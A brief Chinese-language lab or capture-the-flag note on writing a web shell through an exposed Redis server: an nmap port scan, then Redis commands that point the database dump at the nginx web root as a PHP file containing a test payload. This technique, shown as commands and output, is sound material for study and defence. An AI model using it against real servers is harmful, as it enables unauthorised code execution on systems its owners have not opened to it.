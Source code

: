 
redis写shell

## 端口发现

```bash
┌──(fforu㉿fforu)-[~/workspace/res]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.96.10
PORT     STATE SERVICE
80/tcp   open  http
6379/tcp open  redis
```
## 写shell
nc或者redis-cli连接
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10

```sql
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```